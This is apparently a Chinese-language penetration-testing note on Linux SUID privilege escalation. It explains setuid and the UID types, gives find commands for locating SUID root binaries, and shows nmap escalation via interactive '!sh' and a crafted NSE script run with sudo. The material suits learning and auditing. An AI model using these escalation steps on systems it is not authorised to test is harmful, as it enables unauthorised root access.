 # 文章
[谈一谈Linux与suid提权 | 离别歌](https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html)<br />通常来说，Linux运行一个程序，是使用当前运行这个程序的用户权限，这当然是合理的。但是有一些程序比较特殊，比如我们常用的ping命令。<br />ping需要发送ICMP报文，而这个操作需要发送Raw Socket。在Linux 2.2引入[CAPABILITIES](http://man7.org/linux/man-pages/man7/capabilities.7.html)前，使用Raw Socket是需要root权限的（当然不是说引入CAPABILITIES就不需要权限了，而是可以通过其他方法解决，这个后说），所以你如果在一些老的系统里ls -al $(which ping)，可以发现其权限是-rwsr-xr-x，其中有个s位，这就是suid：
```bash
root@linux:~# ls -al /bin/ping
-rwsr-xr-x 1 root root 44168 May 7 2014 /bin/ping
```
suid全称是**S**et owner **U**ser **ID** up on execution。这是Linux给可执行文件的一个属性，上述情况下，普通用户之所以也可以使用ping命令，原因就在我们给ping这个可执行文件设置了suid权限。<br />设置了s位的程序在运行时，其**Effective UID**将会设置为这个程序的所有者。比如，/bin/ping这个程序的所有者是0（root），它设置了s位，那么普通用户在运行ping时其**Effective UID**就是0，等同于拥有了root权限。<br />这里引入了一个新的概念Effective UID。Linux进程在运行时有三个UID：

- Real UID 执行该进程的用户实际的UID
- Effective UID 程序实际操作时生效的UID（比如写入文件时，系统会检查这个UID是否有权限）
- Saved UID 在高权限用户降权后，保留的其原本UID（本文中不对这个UID进行深入探讨）

通常情况下Effective UID和Real UID相等，所以普通用户不能写入只有UID=0号才可写的/etc/passwd；有suid的程序启动时，Effective UID就等于二进制文件的所有者，此时Real UID就可能和Effective UID不相等了。<br />有的同学说某某程序只要有suid权限，就可以提权，这个说法其实是不准确的。只有这个程序的所有者是0号或其他super user，同时拥有suid权限，才可以提权。
## 寻找含有suid权限的可执行文件
```shell
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
find / -type f -perm -04000 -ls 2>/dev/null

-user 指定文件拥有者
-perm 文件权限
-exec 执行系统命令
```
![image.png](./images/20231017_2359215411.png)
## 可利用文件总结
总结网站 [https://gtfobins.github.io/](https://gtfobins.github.io/)
### Nmap
nmap（2.02-5.21）存在交互模式，可利用提权。
```shell
nmap --interactive

之后执行:
nmap> !sh
sh-3.2# whoami
root

//这是真正意义上的提权，进入到了root用户的shell
```
但是这是老版本的，为了安全性，nmap的这个机制已经弃用。然后了解到较新版可使用--script参数
```shell
echo "os.execute('/var/www/html/root-see.out')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```